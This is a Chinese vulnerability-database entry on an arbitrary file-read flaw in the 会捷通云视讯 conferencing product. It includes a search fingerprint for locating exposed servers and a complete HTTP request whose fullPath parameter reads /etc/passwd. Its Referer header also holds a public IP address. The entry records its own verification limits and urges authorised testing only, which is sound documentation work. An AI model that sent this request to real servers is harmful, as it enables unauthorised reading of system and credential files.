

# 会捷通云视讯 fileDownload fullPath任意读取

## 条目说明

- 对象与具体问题：会捷通云视讯；fileDownload fullPath任意读取
- 版本、配置及部署条件：Linux实例，版本未知
- 认证与权限前提：未携凭据示例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- Referer残留公网IP需替换；版本字段产品名，空标题和过多空行清理
- 截图未视检，需文本文件内容/进程读权限及修复版本；所有文件说法过宽

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

会捷通云视讯 fileDownload 存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器上的任意文件

### 漏洞影响

```
会捷通云视讯
```

### 网络测绘

```
body="/him/api/rest/v1.0/node/role"
```

### 漏洞复现

登陆页面如下


发送请求包


```http
POST /fileDownload?action=downloadBackupFile HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://36.99.45.142:9090/fileDownload?action=downloadBackupFile
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

fullPath=%2Fetc%2Fpasswd
```

> 请求长度说明：原资料 Content-Length 为 24；静态长度已移除，应由客户端根据最终请求体的字节数生成。





##


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
